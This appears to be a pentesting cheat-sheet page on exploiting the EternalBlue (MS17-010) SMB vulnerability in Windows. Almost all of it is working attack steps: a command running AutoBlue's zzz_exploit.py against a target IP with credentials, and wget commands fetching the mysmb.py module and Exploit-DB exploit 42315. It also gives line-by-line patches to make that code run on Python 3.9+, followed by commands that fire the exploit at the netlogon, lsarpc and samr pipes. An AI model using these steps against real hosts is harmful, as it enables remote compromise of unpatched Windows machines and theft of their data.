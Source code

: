 ```yaml
---
title: EternalBlue
desc: Exploits Microsoft's SMB protocol. Also known as MS17-010.
tags: [SMB, Windows]
alts: [RapidTables]
website: https://github.com/3ndG4me/AutoBlue-MS17-010
render_with_liquid: false
---
```


## AutoBlue

```sh
# Basic
python zzz_exploit.py -target-ip 10.0.0.1 -port 445 'username:password@target'
```

<br />

## Manual Exploit

### 1. Download a required module named ‘mysmb.py’ and edit some codes for Python3.9+.

```sh
wget -O mysmb.py https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py


# ------ Edit in mysmb.py -----------------------------------------------

Line.69
# transData = b''
transData = ''

Line.73
# transData = ('\x00' * padLen) + str(parameters)
transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

Line.80
# transData += ('\x00' * padLen) + data
transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

Line.231
# req = str(pkt)
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

Line.381
# data += resp['Data'][1:]
data += resp['Data'][1:].decode()
```

### 2. Download an exploit via the Exploit-DB and edit credentials.

```sh
wget -O exploit.py https://www.exploit-db.com/exploits/42315


# ---- Edit in exploit.py ------------------

...
username = "username"
password = "password"
...

```

### 3.Run

```sh
python exploit.py 10.0.0.1 netlogon
python exploit.py 10.0.0.1 lsarpc
python exploit.py 10.0.0.1 samr
```